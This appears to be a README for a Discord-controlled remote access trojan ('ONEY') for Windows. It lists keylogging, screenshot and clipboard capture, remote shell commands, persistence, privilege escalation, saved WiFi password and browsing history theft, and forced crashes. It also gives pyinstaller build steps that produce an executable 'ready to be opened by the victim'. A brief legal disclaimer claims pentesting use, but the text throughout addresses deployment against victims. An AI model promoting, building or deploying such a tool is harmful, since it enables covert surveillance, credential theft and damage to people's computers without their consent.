 # Discord-Bot-RAT ONEY

[![Python](https://img.shields.io/badge/Python-3.8%2B-3776AB?logo=python&logoColor=white)](https://python.org)
[![Platform](https://img.shields.io/badge/Platform-Windows-0078D6?logo=windows&logoColor=white)](https://www.microsoft.com/windows)
[![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg?logo=gnu&logoColor=white)](https://www.gnu.org/licenses/gpl-3.0)
[![Code Style](https://img.shields.io/badge/code%20style-black-000000.svg)](https://github.com/psf/black)

A remote Discord-based administration system.



## 🌟 Feature Highlights

### 🕵️‍♂️ Surveillance Module
| Feature | Command | Preview |
|---------|---------|---------|
| Screen Capture | `!screen` | Screenshot |
| Keylogger | `!log`/`!stoplog` | `[LOG] Keys: [Enter]T[E]S[T]` |
| Clipboard | `!clipboard` | Copies current clipboard |

Runs in the background, sets itself to run at startup, checks if user is connected to the internet before running main code.

### 💻 System Control
```
!exec ipconfig        # Remote command execution
!su                   # Privilege escalation
!persist              # Install persistence
!bsod                 # Emergency trigger

 Hardware Inventory
!cpu                  # CPU specs
!ram                  # Memory (GB) 
!drives               # Storage analysis

 Network Recon
!ip                   # IP address
!wifi                 # Connected networks
!dns                  # DNS configuration

and more! (check below)
```
## 🚀 Deployment

Requirements

pip install -r requirements.txt

python oney.pyw

File extension can be modified to:

.py for console logs. (you need the requirements installed on the victims pc.)

.pyw discrete. (you need the requirements installed on the victims pc.)

.exe if you compile it with pyinstaller. (Recommended! no requirements or python needed, just an .exe file ready to be opened.)

## 🛠 Discord Bot Setup Guide
1. Create a Discord Application
Go to the Discord Developer Portal

Click "New Application" → Name it (e.g., "oney") → Click "Create"

2. Convert to a Bot Account
Navigate to the "Bot" tab in left sidebar


Click "Add Bot" → "Yes, do it!"

3. Configure Bot Permissions
Under "Privileged Gateway Intents", enable:

✅ Presence Intent

✅ Server Members Intent

✅ Message Content Intent


Copy your Bot Token (click "Reset Token" if blank)
🔐 Keep this secret - it's your bot's password!

4. Invite Bot to Your Server
Go to "OAuth2" → "URL Generator"

Select these scopes:

bot

applications.commands

Set these permissions (checkboxes):

Administrator (for testing)
or manually select:
View Channels, Send Messages, Embed Links, Attach Files, Read Message History

Copy the generated URL and visit it in your browser

## Configuration
Edit python file:


  "token": "token"
  
   Replace token with your discord bot token. get it from https://discord.com/developers/applications

## Production (Recommended)
pip install pyinstaller

pyinstaller --onefile --windowed --icon=assets/icon.ico oney.pyw

This will generate a .exe file in the dist folder ready to be opened by the victim, no requirements or python needed to open it.


# ⚖️ Legal Compliance

Warning

This tool is only for:

Authorized pentesting

Educational research

System administration

Document all consent before use.
Violations may incur penalties under:

CFAA (18 U.S. Code § 1030)

GDPR Article 5

Local computer crime laws

📜 Full Command Reference

    commands_list = [
        ('!screen', 'Capture and send a screenshot'),
        ('!ip', 'Get the IP address'),
        ('!clipboard', 'Show clipboard content'),
        ('!exec <command>', 'Run a shell command'),
        ('!shutdown', 'Shutdown the computer'),
        ('!bsod', 'Trigger a BSOD (WARNING)'),
        ('!msg <message>', 'Show a Windows message box'),
        ('!url <url>', 'Open a URL in browser'),
        ('!restart', 'Restart the computer'),
        ('!cancelrestart', 'Cancel a scheduled restart'),
        ('!log', 'Start keylogging (sends every 15s)'),
        ('!stoplog', 'Stop keylogging'),
        ('!ls', 'List files in the current directory'),
        ('!cd <path>', 'Change the current directory'),
        ('!rm <filename>', 'Delete a file'),
        ('!rmd <dirname>', 'Delete a directory'),
        ('!download <filename>', 'Download a file'),
        ('!uuid', 'Get the system UUID'),
        ('!mac', 'Get MAC addresses'),
        ('!dns', 'Get DNS server info'),
        ('!wifi', 'Show connected WiFi info'),
        ('!wifi_passwords', 'Show saved WiFi passwords'),
        ('!systeminfo', 'Show system information'),
        ('!cpu', 'Show CPU information'),
        ('!gpu', 'Show GPU information'),
        ('!ram', 'Show RAM information in GB'),
        ('!drives', 'Show drives information in GB'),
        ('!hostname', 'Show the hostname'),
        ('!osinfo', 'Show OS version'),
        ('!user', 'Show current user'),
        ('!recent [browser]', 'Show recently visited websites'),
        ('!su', 'Request administrator privileges')
    ]
